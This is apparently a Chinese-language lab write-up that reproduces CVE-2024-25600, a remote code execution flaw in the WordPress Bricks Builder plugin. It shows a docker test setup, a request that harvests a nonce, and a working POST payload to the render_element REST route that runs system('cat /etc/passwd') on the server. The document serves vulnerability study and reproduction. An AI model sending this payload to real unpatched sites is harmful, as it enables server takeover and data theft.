






# CVE-2024-25600 WordPress Bricks Builder RCE

WordPres Bricks Builder 是一个 WordPress 页面构建器插件，旨在帮助用户轻松创建具有吸引力和交互性的网站页面，而无需编写代码。该插件提供了直观的拖放界面和各种预制模块，使用户可以快速构建自定义布局，添加内容和样式，以及实现所需的功能。WordPress配置安装的Brick Builder主题在低于<= 1.9.6版本中存在远程代码执行漏洞。

Bricks Builder官方https://bricksbuilder.io/

Bricks Builder使用手册https://academy.bricksbuilder.io/topic/getting-started/

参考链接：

- https://bricksbuilder.io/release/bricks-1-9-6-1/
- https://www.cve.org/CVERecord?id=CVE-2024-25600
- https://blog.csdn.net/shelter1234567/article/details/136503993

## 漏洞环境

执行如下命令启动一个wordpress-bricks1.9.5-web服务器：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:80/`将自动跳转到wordpress安装向导界面

1，配置与mysql的连接



2，配置站点与管理员账号密码


3，登录后台 安装Bricks1.9.5



出现以下页面，即安装成功



4，点击激活



## 漏洞复现

首先，`/`根路径查看Bricks 返回的nonce值

```
GET / HTTP/1.1
Host: 192.168.116.128
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate, br
```



得到nonce值之后发送如下请求

```xml-dtd
POST /?rest_route=/bricks/v1/render_element HTTP/1.1
Host: 192.168.116.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 303
Content-Type: application/json
Accept-Encoding: gzip, deflate, br

{
  "postId": "1",
  "nonce": "2a557d521f",
  "element": {
    "name": "container",
    "settings": {
      "hasLoop": "",
      "query": {
        "useQueryEditor": "",
        "queryEditor": "system('cat /etc/passwd');throw new Exception();",
        "objectType": ""
      }
    }
  }
}
```



